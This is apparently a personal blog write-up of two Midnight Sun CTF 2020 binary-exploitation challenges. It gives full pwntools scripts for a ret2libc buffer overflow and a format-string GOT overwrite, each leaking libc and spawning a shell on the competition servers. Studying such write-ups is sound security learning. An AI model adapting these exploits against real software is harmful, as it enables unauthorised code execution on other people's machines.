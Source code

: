 ```yaml
---
title: Midnight Sun CTF Quals 2020 - Pwn Writeups
summary: 
date: "2020-04-04T00:00:00Z"

reading_time: true  # Show estimated reading time?
share: true  # Show social sharing links?
profile: true  # Show author profile?
comments: true  # Show comments?
# Optional header image (relative to `static/img/` folder).
header:
  caption: ""
  image: ""
---
```

# **pwn1(70pts)** #

![TASK](https://imgur.com/4fbyzFx.png)

It was a ret2libc task , but we had firstly to leak the libc base address using BOF (i leaked it through printf address) than we will return to main and perform our ret2 System :D
here is my exploit, if you have any questions you can contact me on twitter @BelkahlaAhmed1 

```python

from pwn import *
p=remote("pwn1-01.play.midnightsunctf.se",10001)
#p=process("./pwn1")
OFFSET=cyclic(72)
POP_RDI_RET=p64(0x0000000000400783)
PUTS=p64(0x0000000000400550)
LEAK=p64(0x602020)
MAIN=p64(0x400698)
payload=OFFSET+POP_RDI_RET+LEAK+PUTS+MAIN
log.info("Payload Crafted")
p.recvuntil("buffer:")
log.info("Sending payload")
#raw_input("attach")
p.sendline(payload) 
data=p.recvline().strip()
leak=u64(data.ljust(8,"\x00"))
BASE_LIBC=leak-0x64e80       # local 0x54a20 
log.info("leaked libc base: "+hex(BASE_LIBC))
p.recvuntil("buffer:")
#BINSH=p64(BASELIBC+0x183cee)
#SYSTEM=p64(BASELIBC+0x46ed0)
RET=p64(0x0000000000400536)  
SYSTEM=p64(BASE_LIBC+0x4f440)
BINSH=p64(BASE_LIBC+0x1b3e9a)
payload=OFFSET+RET+POP_RDI_RET+BINSH+SYSTEM
p.sendline(payload)
p.interactive()
```
** NOTE: ** Check Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/Midnight%20Sun%20CTF%202020%20Quals/pwn1) ** 

# **pwn2(80pts)** #

![TASK](https://imgur.com/lYjuGsS.png)

It was a really fun task , we had a format string vulnerability , so firstly i overwrited the GOT entry of the exit function with main address so we have now an infinite loop and the program will never exit , than using format string we leak the libc base address and than we overwrite the GOT entry of printf with the address of system :D 
Here is my exploit , if you have any questions you can contact me o twitter @BelkahlaAhmed1 

```python

from pwn import *
def extract(add,n):
        p1="0x"+add[-4:]
        p2=add[:6]
        if n==1:
                return p1
        if n==2:
                return p2
def pad(payload):
        return payload+"X"*(63-len(payload))
#p=process("./pwn2")
p=remote("pwn2-01.play.midnightsunctf.se",10002)
p.recvuntil("input:")
EXITGOT=p32(0x804b020)
EXITGOT2=p32(0x804b020+2)
'''
s=""
for i in range(27,34):
        s+="%"+str(i)+"$p "
'''
payload=EXITGOT+EXITGOT2
payload+="%2044x%8$hn%32231x%7$hn"
#raw_input("attach")
p.sendline(pad(payload))
p.recvuntil("input:")
p.sendline(pad("%30$x"))
data=p.recvuntil("X")
printf=int("0x"+data[-9:-1],16)-5
LIBCBASE=printf-0x50b60
log.info("Leaked Libc Base : "+hex(LIBCBASE))
p.recvuntil("input:")
PRINTFGOT=p32(0x804b00c)
PRINTFGOT2=p32(0x804b00c+2)
SYSTEM=LIBCBASE+0x3cd10
log.info("System address: "+hex(SYSTEM))
payload=PRINTFGOT
payload+=PRINTFGOT2
p1=int(extract(hex(SYSTEM),1),16)
p2=int(extract(hex(SYSTEM),2),16)
log.info("P1: "+str(p1-8)+" P2: "+str(p2-p1))
payload+="%"+str(p1-8)+"x%7$hn%"+str(p2-p1)+"x%8$hn"
log.info("Payload crafted")
p.sendline(pad(payload))
p.recvuntil("input:")
p.sendline("/bin/sh")
p.interactive()

#Main address 0x80485eb
# 7 stack adress

```

** NOTE: ** Task files ** [HERE](https://github.com/kahla-sec/CTF-Writeups/tree/master/Midnight%20Sun%20CTF%202020%20Quals/pwn2) **

These tasks were really fun, i'm sorry for the lack of details because i'm really busy this period :( 
